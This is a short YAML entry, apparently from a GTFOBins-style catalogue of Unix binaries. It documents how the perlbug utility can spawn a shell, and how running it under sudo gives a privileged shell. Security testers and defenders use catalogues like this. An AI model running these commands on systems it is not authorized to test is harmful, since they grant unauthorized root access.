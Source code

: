 ```yaml
---
functions:
  shell:
    - code: perlbug -s 'x x x' -r x -c x -e 'exec /bin/sh;'
  sudo:
    - code: sudo perlbug -s 'x x x' -r x -c x -e 'exec /bin/sh;'
---
```

